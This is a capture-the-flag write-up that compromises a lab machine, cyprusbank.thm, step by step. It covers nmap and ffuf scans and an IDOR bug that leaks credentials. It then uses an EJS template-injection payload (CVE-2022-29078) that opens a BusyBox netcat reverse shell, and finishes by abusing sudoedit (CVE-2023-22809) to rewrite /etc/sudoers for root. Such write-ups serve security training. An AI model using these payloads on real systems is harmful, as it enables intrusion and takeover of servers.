




## Enumeration

- lets try scanning this web app
```sh
➜ nmap -sVC cyprusbank.thm 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-21 02:53 EST
Nmap scan report for cyprusbank.thm (10.10.231.114)
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 470.08 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
When trying to access Port 80 ( http://whiterose.thm )
We are redirected to a new URL ( http://cyprusbank.thm )

```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   cyprusbank.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )
```sh
➜ ffuf -u http://cyprusbank.thm/ -H "HOST: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/amass/subdomains-top1mil-5000.txt -fw 1    


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /usr/share/wordlists/amass/subdomains-top1mil-5000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 99ms]
:: Progress: [5000/5000] :: Job [1/1] :: 37 req/sec :: Duration: [0:00:20] :: Errors: 1 ::
```

> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →

Can we use these credentials → ```Olivia Cortez : olivi8``` on this page ?
Let’s find out ..

## IDOR BUG

   - In the Message section we see the ending URL has a number
   - The vulnerability we can try here is called Insecure Direct Object Reference **(IDOR)**. This occurs when an application exposes a reference to an internal object (like a database record or file) directly in the URL. If there are no proper access controls or authorization checks, attackers can manipulate these references (in your case, changing the c parameter in the URL) to access resources they’re not authorized to view.

   - In this case , changing ```?c=1, ?c=2, etc.,``` might reveal different messages or records without proper permission checks, allowing unauthorized access to sensitive data. IDOR vulnerabilities are part of the broader Broken Access Control category in the OWASP Top 10.


Voila ! We found credentials on ?/c=8 for another User named →
```Gayle Bev```

## Exploitation

> We are able to now access the Settings page as User → Gayle Bev

  -  In the customer settings page there are two entries →
  - Enter a Customer Name & Enter a New Password

> Now keeping in mind that there are a lot of Customer names in the home page i tried entering the Individual Name and tried entering a New Password ,
> so that i can use these credentials to log into to that account ,
> Just like we did earlier , 
> but it doesn’t work that way .

> Time to use our Favourite tool **→ Burp Suite**

  -  Sending the request to Burpsuite as ```user:pass → admin:admin```
  -  User and Password can be set to anything ,
  -  Let’s get our request to Repeater in Burp Suite



We found /home/web/app/views/settings.ejs
The file path ```/home/web/app/views/settings.ejs``` likely points to an EJS (Embedded JavaScript) template file used in a **Node.js** or **Express.js** web application.

   - After doing a little research i found a ```EJS SSTI vulnerability``` →
[EJS, Server side template injection RCE (CVE-2022-29078) - writeup](https://eslam.io/posts/ejs-server-side-template-injection-rce/?source=post_page-----972ee9129fe2--------------------------------)

> - in this PoC we are using port 1337 , but for this writeup i will be using port 1234 for the reverse shell , you can continue with the default one if you want .
> - For this case replacing the reverse shell used in ```PoC → nc -e sh IP-address PORT```by that of BusyBox from [revshells.com](https://www.revshells.com/) gave us the reverse shell successfully
```sh
&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc [IP] [PORT] -e sh');s
```


We then checked the terminal and confirmed that we received a connection back as the user “web.” The next step was to stabilize the shell.
```sh
➜  CTF-Writeups nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.21.102.133] from (UNKNOWN) [10.10.0.0] 54174
python3 -c "import pty; pty.spawn(\"/bin/bash\")"
web@cyprusbank:~/app$ export TERM=xterm
export TERM=xterm
web@cyprusbank:~/app$ ^Z
[1]  + 8530 suspended  nc -lnvp 1337
➜  CTF-Writeups stty raw -echo; fg
[1]  + 8530 continued  nc -lnvp 1337
web@cyprusbank:~/app$
```
## Privilege Escalation
- We begin by listing the available sudo privileges for the current user using the ```sudo -l``` command. 
- Additionally, we check the version of sudoedit to identify any potential vulnerabilities. 
- Upon inspection, we discover that the sudo version is vulnerable to [CVE-2023-22809](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/?source=post_page-----972ee9129fe2--------------------------------). 
- This vulnerability allows us to bypass restrictions and gain the ability to read or edit any file by manipulating the ```EDITOR variable```.
```sh
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
web@cyprusbank:~/app$ export EDITOR="vim -- /etc/sudoers"
web@cyprusbank:~/app$ sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
> - Once in vi, press i to enter insert mode and edit the file.
> - Remove the following line from the **/etc/sudoers** file:
> -  ```web ALL=(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm```
> - Replace the following line:
 ```web ALL=(root) NOPASSWD: ALL```



> - Now, we can run sudo commands without needing to provide the root password. Use ```sudo su``` to switch to the root user.

```sh
sudoedit: --: editing files in a writable directory is not permitted
2 files to edit
sudoedit: /etc/nginx/sites-available/admin.cyprusbank.thm unchanged
web@cyprusbank:~/app$ sudo su
root@cyprusbank:/home/web/app# ls -la
ls -la
total 40
drwx------  6 root root 4096 Apr  4  2024 .
drwxr-xr-x 23 root root 4096 Jul 12  2023 ..
lrwxrwxrwx  1 root root    9 Jul 16  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Jul 16  2023 .cache
-rwxr-xr-x  1 root root  156 Apr  4  2024 clean.sh
drwx------  3 root root 4096 Jul 16  2023 .gnupg
drwxr-xr-x  3 root root 4096 Jul 16  2023 .local
drwxr-xr-x  5 root root 4096 Apr  4  2024 .pm2
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   21 Jul 15  2023 root.txt
```
**GOOD LUCK...**

